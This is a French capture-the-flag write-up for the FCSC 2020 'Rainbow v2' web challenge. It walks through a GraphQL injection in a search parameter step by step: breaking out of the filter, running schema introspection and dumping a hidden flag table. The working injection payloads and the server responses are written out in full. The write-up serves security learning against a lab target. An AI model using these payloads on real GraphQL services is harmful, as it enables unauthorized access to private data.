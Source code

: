 ```yaml
---
title: FR - FCSC 2020 - Write Up - Rainbow v2
date: 2020-05-18 10:20:00 +07:00
tags: [francais, FCSC, CTF, WU, Web, php, GraphQL]
description: Write Up du challenge Rainbow v2 du FCSC 2020.
---
```


## Rainbow v2
On découvre le même site que le précédent, à la différence près qu'il est sécurisé (o/).  
On remarque que la requête est différente, ici, on ne construis pas nous même la requete, on y donne simplement une valeur qui sera concaténé à la requête.

Testons quelques valeurs et analysons le résultat :

##### Quelques tests plus tard...
```js
search=%00
```
Result : `list all datas`

```js
search='
```
Result : `Nothing`

```js
search="
```
Result :
```js
{"errors":[{"message":"Syntax Error: Cannot parse the unexpected character \"%\".","locations":[{"line":1,"column":52}]}]}
```

#### Diagnostique
On peux facilement imaginer que la requete est la même que le challenge précédent, testons des injections :
```js
{ allCooks (filter: { firstname: {like: "%%"}}) { nodes { firstname, lastname, speciality, price }}}
```

Après diverses tentatives, j'ai remarqué que cette fois-ci, on peut chercher par firstname ET lastname...  
Modifions la requête en conséquence :
```js
{ allCooks (
filter: {
  or: [
    {lastname: {like: "%INJECT_HERE%"}},
    {firstname: {like: "%INJECT_HERE%"}}
  ],
 }) { nodes { firstname, lastname, speciality, price }}}
```

### Exploitation !
Après avoir fait proc diverses erreurs, j'ai pu construire mon payload :
```js
%"}}{firstname:{like:"%%"}}]}){nodes{id}}__schema{types{name,fields{name}}}allCooks(filter:{or:[{lastname:{like:"%
```
On remarque une erreur étrange :
```
[{"message":"Fields \"allCooks\" conflict because they have differing arguments. Use different aliases on the fields to fetch both if this was intentional."
```
La raison pour laquelle l'erreur est proc, c'est à cause de la redondance de allCooks, ajoutons un commentaire :
```js
%"}}{firstname:{like:"%%"}}]}){nodes{id}}__schema{types{name,fields{name}}}#
```
Résultat :
```
{"errors":[{"message":"Syntax Error: Cannot parse the unexpected character \"%\".","locations":[{"line":2,"column":1}]}]}
```
Une syntax error... Voyons ce que donne cette requête au complet :

```js
{
  allCooks (filter: {
        or: [
            {lastname: {like:"%%"}}
            {firstname: {like:"%%"}}
        ]
      }
    )
    {nodes { firstname}}
    __schema{types{name,fields{name}}}#allCooks(filter:{or:[{lastname:{like:"%%"}}{firstname:{like:"%%"}}],}){nodes{firstname,lastname,speciality,price}}}
```

On remarque vite le problème, il manque la fermeture du premier bracket :
```js
%"}}{firstname:{like:"%%"}}]}){nodes{id}}__schema{types{name,fields{name}}}}#
```

Une fois éxecutée, la requête nous livre les informations sensibles du schema dont allFlagNotTheSameTableNames et flagNotTheSameFieldName.  
On adapte la requète pour lister les flags :
```js
%"}}{firstname:{like:"%%"}}]}){nodes{firstname}} allFlagNotTheSameTableNames (filter: { flagNotTheSameFieldName: {like: "%%"}}) { nodes { flagNotTheSameFieldName}}}#
```

#### Set as finished
Et hop :
```js
{"data":{"allCooks":{"nodes":[{"firstname":"Thibault"},{"firstname":"Antoinette"},{"firstname":"Bernard"},{"firstname":"Trycia"},{"firstname":"Jaleel"},{"firstname":"Isaac"},{"firstname":"Delbert"},{"firstname":"Paula"},{"firstname":"Teagan"},{"firstname":"Garfield"},{"firstname":"Elisabeth"},{"firstname":"Casey"},{"firstname":"Consuelo"},{"firstname":"Luciano"},{"firstname":"Piper"},{"firstname":"Jace"}]},"allFlagNotTheSameTableNames":{"nodes":[{"flagNotTheSameFieldName":"FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}"}]}}}
```
